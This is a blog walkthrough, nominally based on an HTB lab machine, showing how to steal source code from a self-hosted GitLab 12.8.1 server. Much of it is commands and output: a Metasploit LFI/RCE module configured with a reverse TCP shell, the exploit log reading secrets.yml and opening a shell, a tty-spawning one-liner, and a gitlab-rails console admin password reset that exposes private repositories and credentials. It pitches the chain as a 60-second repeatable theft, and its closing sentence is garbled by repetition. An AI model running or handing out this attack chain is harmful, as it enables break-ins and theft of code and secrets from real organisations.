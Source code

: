 ```yaml
---
layout: default
---
```


### Steal project Source Code in 60 seconds

----------

![title](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/title.jpg)

----------

The journey starts with Company Gitlab CI with open register functional that i got from the rsource company list , Gitlab is self hosted on barametal hosting. The Current version of the gitlab-ce is vulnerable to LFI and RCE exploiting the RCE and getting initial shell in a server , Changing the admin account with github-rails console and login as him on gitlab. Got the private credentials. keys in a project-repo.

For notes used test env as HTB Machine - Laboratory because real env under NDA.

####  Gitlab CI resource

And i can see that Gitlab is hosted. I saw open Register function and Try do it!

----------

![register](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/register.jpg)

----------

Now i registered myself as oleksii and logged in

----------

![login](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/login.jpg)

----------

Didn’t see anything good and juicy then i just go to `https://gitlab.site.io/help`

----------

![version](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/version.jpg)

----------

So its 12.8.1 , so searched a bit about it on google and got so many CVEs. And on rapid7.com site saw info about vulnerabilities, it was disclosed few months ago (Created 12/10/2020) and was about LFI & RCE. The RCE only affects versions 12.4.0 and above when the vulnerable `experimentation_subject_id` cookie was introduced. Tested on GitLab 12.8.1 and 12.4.0.

This picture in Company Gitlab CI says a lot:)

----------

![asap](https://m1sn1k.github.io/blog/Steal-project-source-code-in-60-seconds/asap.jpg#center)

----------

#### RCE in the gitlab

Now i can that i exploitetion RCE using msfconsole tool `https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce` because exploit was development and added it to exploit list. 

```
msf6 exploit(multi/http/gitlab_file_read_rce) > use exploit/multi/http/gitlab_file_read_rce
msf6 exploit(multi/http/gitlab_file_read_rce) > show options 

Module options (exploit/multi/http/gitlab_file_read_rce):

   Name             Current Setting                                               
   ----             ---------------                                               
   USERNAME         oleksii@test.test                                             
   PASSWORD         oleksii@test.test                                             
   RHOSTS           10.10.10.*                                                         
   RPORT            443                                                           
   SECRETS_PATH     /opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml  
   TARGETURI        /users/sign_in                                                
   VHOST            gitlab.site.io                                                

Payload options (generic/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.*       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
```

Exploitation RCE vulnerability: 

```
[*] Started reverse TCP handler on 10.10.14.137:2222 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. GitLab 12.8.1 is a vulnerable version.
[*] Logged in to user oleksii
[*] Created project /oleksii/irUhEXC3
[*] Created project /oleksii/Dq5g60ow
[*] Created issue /oleksii/irUhEXC3/issues/1
[*] Executing arbitrary file load
[+] File saved as: '/root/.msf4/loot/20210102160557_default_10.10.10.216_gitlab.secrets_454778.txt'
[+] Extracted secret_key_base 3231f54b33e0c1ce998113c083528460153b19542a70173b4458a21e845ffa33cc45ca7486fc8ebb6b2727cc02feea4c3adbe2cc7b65003510e4031e164137b3
[*] NOTE: Setting the SECRET_KEY_BASE option with the above value will skip this arbitrary file read
[*] Attempting to delete project /oleksii/irUhEXC3
[*] Deleted project /oleksii/irUhEXC3
[*] Attempting to delete project /oleksii/Dq5g60ow
[*] Deleted project /oleksii/Dq5g60ow
[*] Command shell session 3 opened (10.10.14.137:2222 -> 10.10.10.216:50878) at 2021-01-02 16:06:02 -0500

ls -la
total 8
drwx------ 2 git root 4096 Jul  2  2020 .
drwxr-xr-x 9 git root 4096 Jan  2 20:41 ..
python3 -c 'import pty; pty.spawn("/bin/sh")'

$ls -la
drwx------ 2 git root 4096 Jul  2  2020 .
drwxr-xr-x 9 git root 4096 Jan  2 20:41 ..

```

Often during pen tests you may obtain a shell without having tty, yet wish to interact further with the system. Here are some commands which will allow you to spawn a tty shell. Obviously some of this will depend on the system environment and installed packages.

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
```

#### Resetting admin password

Now since the gitlab is installed i can spawn a gitlab-rails console and reset the admin password , and check who is admin. Resetting admin password offical document link `https://docs.gitlab.com/12.10/ee/security/reset_root_password.html`

Used command from this doc I could reset admin password. Start a Ruby on Rails console with this command:
```
 gitlab-rails console -e production
```
Wait until the console has loaded.

There are multiple ways to find your user. You can search for email or username.
```
  user = User.where(id: 1).first
```
Found Gitlab admin user:

```
irb(main):008:0> user = User.where(id: 1).first
user = User.where(id: 1).first
=> #<User id:1 @dexter>
```

or

Other type get username and email without Gitlab authentification is use api `https://gitlab.site.io/api/v4/users/1`

```
{
  "id": 1,
  "name": "Dexter McPherson",
  "username": "dexter",
  "state": "active",
  "avatar_url": "http://gitlab.site.iouploads/-/system/user/avatar/1/avatar.png",
  "web_url": "http://gitlab.site.io/dexter",
  "created_at": "2020-07-02T18:02:18.859Z",
  "bio": "",
  "location": "",
  "public_email": "",
  "skype": "",
  "linkedin": "",
  "twitter": "",
  "website_url": "",
  "organization": ""
}
```

Now you can change your password:

```
 user.password = 'secret_pass'
 user.password_confirmation = 'secret_pass'
```

It’s important that you change both password and password_confirmation to make it work.

Don’t forget to save the changes.

```
 user.save!
```
Exit the console and try to login with your new password.

#### Login as admin on gitlab

Now can login as admin - dexter : secret_pass and can see all repos with credentials and keys. 

So now see how can steal project Source code in 60 seconds because I think If you repeat all command from this notes then spend no more than 60 second.in 60 seconds bacouse I think If you repeat all command from this notes and spend no more than 60 second. 


 